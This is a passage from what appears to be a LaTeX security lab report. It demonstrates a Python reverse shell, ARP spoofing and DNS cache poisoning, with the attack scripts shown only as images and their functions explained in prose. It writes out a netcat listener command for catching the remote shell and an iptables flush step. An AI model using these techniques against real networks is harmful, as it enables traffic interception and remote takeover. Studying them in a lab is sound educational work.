
\includegraphics[width=1.22\textwidth]{Resources/Attacks/Code/ReverseShell.png}
\caption{Reverse Shell - Python Script.\label{ReverseShellCode}}
\end{figure}


As shown in Figure \ref{ReverseShellAttack}, the first step of the attacker is to start listening on the specified port and wait for a connection to be established from the victim machine. That is accomplished with the execution of the shell command \newline \textbf{\textit{nc -lv 9090}} \newline
where 9090 is the associated port number.

Succeeding the execution of the script, the reverse shell is properly installed and the attacker has an open remote shell connected to the victim, and the possibility to execute commands. This is proved in the following screenshot, using the \textbf{\textit{"ifconfig"}} command to demonstrate the different IP addresses, before and after  ending the connection.

\begin{figure}[H]
\centering

\includegraphics[width=1.4\textwidth]{Resources/Attacks/Pictures/ReverseShell.png}
    \caption{Reverse Shell - Final Result.\label{ReverseShellAttack}}
\end{figure}


\section{ARP Spoofing and Sniffing}

The address resolution protocol (ARP) is a full-featured dynamic resolution protocol used by the Internet Protocol (IP), specifically IPv4, to map IP network addresses to the hardware addresses used by a data link protocol. The protocol operates below the network layer as a part of the interface between the OSI network and OSI link layer \cite{whitaker2006}\cite{weidman2014}.

The term address resolution refers to the process where network layer addresses are associated with  data link layer addresses. The address is "resolved" using a protocol in which a piece of information is sent by a client process executing on the local computer to a server process executing on a remote computer\cite{pyles2016}. The information received by the server allows the server to uniquely identify the network system for which the address was required and therefore to provide the required address. The address resolution procedure is completed when the client receives a response from the server containing the required address \cite{weidman2014}. ARP requests are sent out when a device knows an IP address but does not know the MAC address of a requested host \cite{whitaker2006}.

There are many types of ARP messages that may be sent by the ARP protocol. These are identified by nine values in the "operation" field of an ARP message. The types of message are shown below, with their associated opcodes \footnote{In accordance to the many different RFCs for the ARP protocol, with RFC 826, \url{https://tools.ietf.org/html/rfc826} , describing the protocol itself.}.

\begin{enumerate}
    \item ARP request
    \item ARP reply
    \item Reverse ARP (RARP) request
    \item Reverse ARP (RARP) reply 
    \item Dynamic Reverse ARP (DRARP) request
    \item Dynamic Reverse ARP (DRARP) reply 
    \item Dynamic Reverse ARP (DRARP) error 
    \item Inverse ARP (InARP) request
    \item Inverse ARP (InARP) reply 
\end{enumerate}

ARP requests are sent out as broadcasts so that all hosts receive the request \cite{pyles2016}.

\subsubsection{ARP Spoofing}

Address resolution protocol (ARP) spoofing or ARP cache poisoning is a technique that causes the redirection of network traffic to a hacker. To perform such an attack, the attacker sends (spoofed) ARP messages onto a local area network. The aim is to associate the attacker's MAC address with the IP address of another host, such as the default gateway, causing any traffic meant for that IP address to be sent to the attacker instead \cite{whitaker2006}\cite{erickson2008}.
This way, the attacker will become the man-in-the-middle between the victim and another host machine, acting as the victim machine. 

Before starting the attack, you can see the associated IP and MAC addresses of the victim in the screenshot below.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Attacks/Pictures/arp1.PNG}
    \caption{ARP Spoofing - Victim's ARP Table.\label{ARP1}}
\end{figure}

Following, is the Python script which was executed by the attacker to perform the ARP spoofing, shown in two pictures. 

\begin{figure}[H]
\centering

\includegraphics[width=1.3\textwidth]{Resources/Attacks/Code/ARP1.png}
    \caption{ARP Spoofing - Python Code part 1\label{ARPcode1}}
\end{figure}

In the beginning of the Python file, we import the necessary libraries to perform the attack, with Scapy being the most important. Our first function, "\textit{\_enable\_linux\_iproute()}", is there to enable IP forwarding for the attacker's machine. For a more smooth and less detectable attack, this should be performed on the victims as well. The command that was used is only suitable for Linux Distributions. With the "\textit{get\_args()}", the argument given by the attacker get parsed and assigned to variables. Afterwards, there is the "\textit{get\_mac(ip)}" function that expects an IP address as an argument in string format. Its role is to return the associated MAC address of the IP address given that is connected in the network. If the address is not found, \textit{None} is returned by the function.

\begin{figure}[H]
\centering

\includegraphics[width=1.3\textwidth]{Resources/Attacks/Code/ARP2.png}
    \caption{ARP Spoofing - Python Code part 2\label{ARPcode2}}
\end{figure}

The above picture shows the rest of the ARP spoofing code, starting with the "\textit{spoof(target\_ip,host\_ip)}" function. This function is responsible for collecting the required information to craft and send the ARP packet to the victims. Afterwards, there is the "\textit{restore(target\_ip, host\_ip)}" procedure which is executed when the attack is about to be terminated in order to ensure an orderly functioning of the network. Lastly, we have the main procedure where we call the methods described above and perform the attack. 

After executing the script and performing the attack, the MAC address that the host machine has associated with the victim machine has changed and is now the attacker's MAC address.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Attacks/Pictures/arp2.PNG}
    \caption{ARP Spoofing - Victim's ARP Table during the attack.\label{ARP2}}
\end{figure}


To properly complete the ARP poisoning attack and avoid disrupting the communication, the connection must be restored as shown in the following picture. This is done using the "\textit{restore(target\_ip, host\_ip)}" function in Figure \ref{ARPcode2}.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Attacks/Pictures/arp1.PNG}
    \caption{ARP Spoofing - Victim's ARP table, after restoring the changes done.\label{ARP3}}
\end{figure}

\section{DNS Server Cache Poisoning}


\subsection{Domain Name System}

A Domain Name System (DNS) is a system used by the TCP/IP Internet Protocol to associate domain names to their server's IP addresses \cite{charles2005}. The Domain Name System consists of three basic name system functions, shown in Figure \ref{DNS}

\begin{figure}[H]
\centering

\includegraphics[width=160mm,scale=1.6]{Resources/General/DNScomponents.jpg}
\caption{Domain Name System Functions \label{DNS}}
\end{figure}

\textbf{Name Space}

DNS has a hierarchical structure consisting a single, complex, multi-level architecture, allowing names to be organized from most general to most specific. The different levels of the hierarchy are \cite{charles2005}\cite{pyles2016}:

\begin{itemize}
    \item Root Domain
    \item Top-Level Domains (TLDs)
    \item Second-Level Domains 
    \item Subdomains
\end{itemize}

\textbf{Name Registration}

Name registration is used to enter individual names into the DNS distributed database. Using a hierarchical arrangement of authorities, a centralized authority defines the name space's shape and structure and handles registration of names \cite{charles2005} .\newline

\textbf{Name Resolution}

The name resolution process is handled by two basic software element: name servers and name resolvers.

A \textit{name server} runs on hardware servers, with its main duty being the translation of a domain name into an IP address that is used to route communications between nodes, by responding to requests. Normally if the server does not know a requested translation it will ask a higher-level domain server, and the process continues recursively. To increase performance, a server will typically remember (cache) these translations for a certain amount of time \cite{pyles2016}\cite{charles2005}.

From the client's point of view, the procedure begins with the application sending a DNS query message to its designated DNS server that contains the name to be resolved. The server then replies with a message containing the IP address corresponding to that name. Using the supplied address, the application can then transmit a message to the intended destination \cite{pyles2016}.

\textit{Name resolvers} are the intermediaries between the client making a request for a network application and the DNS name servers. Their duty is to issue requests to a name server, using the name provided by the client \cite{charles2005}.

\subsection{DNS Cache Poisoning}

As mentioned above, to improve performance, DNS servers store a temporary cache database that contains a list of all recently accessed domain names and the addresses that DNS calculated for them, every first time a request was made. A DNS cache becomes "poisoned" when unauthorized domain names or IP addresses are inserted into it. This can be performed either through computer malware or a network attack, where invalid DNS entries are inserted into the cache or replace existing ones. The meaning of this attack is to redirect the victim to the attacker's custom domain page, possibly containing malicious content. This attack is also referred as DNS spoofing \cite{dns2009doc}.


In this lab, a DNS cache poisoning attack will be demonstrated. As shown in the following picture, before performing the attack, the victim is able to properly communicate with the requested host.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Attacks/Pictures/dns1.png}
    \caption{DNS Cache Poisoning - Ping responses before the attack.\label{DNS1}}
\end{figure}

The script used to carry out the attack is shown in Figures \ref{DNScode1} and \ref{DNScode2}.

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Code/DNS1.png}
    \caption{DNS Cache Poisoning - Python Code part 1\label{DNScode1}}
\end{figure}

 After importing the required libraries, we have the "\textit{parse\_args()}" function, responsible to read, parse and return the arguments the attacker has given and insert a Firewall rule to be able to forward packets.
 
\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Code/DNS2.png}
    \caption{DNS Cache Poisoning - Python Code part 2\label{DNScode2}}
\end{figure}

The "\textit{spoof\_packet(packet)}" method requires a packet as an argument, which is taken from the queue created at line 66. Its function is to read the packet's content, ensure it is a DNS reply and modify it, so it will show that it was sent from the specified address and will direct the victim to the selected page. Afterwards, there is the "\textit{run\_queue()}" procedure that is responsible for the calls of the above functions, the initiation of the \textbf{NetfilterQueue} and association of the queue and the "\textit{run\_queue()}" procedure. In case the attack is interrupted, the command  \newline \textbf{\textit{iptables --flush}} \newline will remove the rule added in the beginning, to complete and end the attack.

